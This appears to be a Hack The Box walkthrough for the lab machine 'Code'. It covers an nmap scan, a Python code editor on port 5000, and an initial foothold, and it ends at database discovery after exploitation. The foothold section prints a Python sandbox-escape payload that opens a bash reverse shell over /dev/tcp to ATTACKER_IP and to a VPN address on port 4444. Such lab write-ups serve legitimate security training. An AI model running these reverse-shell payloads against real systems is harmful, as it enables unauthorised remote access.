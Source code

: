 # 🔓 Hack The Box - Code

> Initial enumeration and setup for the Hack The Box machine named **Code**.

pwned

![pwned](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code20.png?raw=true)

---

## 📅 Start Date

`4/19/2025`

---

## 📡 HTB VPN Connection

Before starting, connect to the HTB VPN:

```bash
sudo openvpn ~/Downloads/HTB.ovpn
```

Verify connectivity to the target machine:

```bash
ping -c 3 <HTB_Code_IP>
```
![VPN Connection](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code1.png?raw=true)

🔍 Nmap Scan

Performed a service and version detection scan with aggressive options:

nmap -sC -sV -A -T4 -Pn -oN code.scan 10.10.11.62

![Nmap Result](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code2.png?raw=true)

🧪 Results Summary

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4

Detailed Notes:

    Port 22 (SSH): OpenSSH 8.2p1 — possibly used for shell access after exploitation.

    Port 5000 (HTTP): Gunicorn Python server hosting a Python Code Editor.

http-title: Python Code Editor
http-server-header: gunicorn/20.0.4

📍 OS Details:

    OS detected: Linux 5.x Kernel

    Network distance: 2 hops

🌐 Web Enumeration on Port 5000

Access the Python Code Editor interface at:

http://code.htb:5000

![WebApp](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code3.png?raw=true)

🛠️ Next Steps:

    Interact with the Python Code Editor. Test for:

        Arbitrary code execution

        Upload/execute payloads

        Sandbox escape (if limited)

## 🏴‍☠️ Initial Foothold - Reverse Shell

### 🎯 Objective:
Gain initial access to the target system by exploiting the Python Code Editor and establishing a reverse shell.

---

### 🧰 Prerequisites:

- ✅ **Python** must be installed on the **target** machine.
- ✅ **Netcat (nc)** must be installed on the **attacker's** machine.
- ✅ Ensure the **target machine can reach the attacker’s IP and port**.

---

### 🪝 Step-by-Step Guide: Gaining a Reverse Shell

#### 📌 Step 1: Set Up a Listener on the Attacker’s Machine

On your Kali/Parrot or attacker machine, open a terminal and start Netcat to listen for the incoming connection:

```bash
nc -lvnp 4444
```

![netcat](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code6.png?raw=true)

Flags explanation:

    -l: Listen for incoming connections

    -v: Verbose output

    -n: Don’t perform DNS resolution

    -p 4444: Use port 4444 for the listener

📌 Step 2: Craft the Reverse Shell Payload

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code5.png?raw=true)
![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code7.png?raw=true)

Use Python’s dynamic class reference to spawn a bash shell back to your machine:

(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])

    🔁 Replace ATTACKER_IP with your actual IP address (e.g., 10.10.14.89 from HTB VPN).

📌 Step 3: Execute the Payload on the Target Machine

Choose any of the following methods based on your access level:
🔹 Method 1: Direct Python Execution

If you already have a shell or console on the target:

python3 -c '(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"])'

🔹 Method 2: Remote Code Execution (RCE) via Python Code Editor

Inject the payload through the web interface:

    Visit: http://code.htb:5000

    Enter the payload in the code execution area.

    Trigger execution.

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code8.png?raw=true)

---

## 🧪 Post-Exploitation - Credentials Discovery

After gaining a reverse shell as `app-production`, I began local enumeration and discovered a SQL database named `database.db` located in the project directory:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code9.png?raw=true)


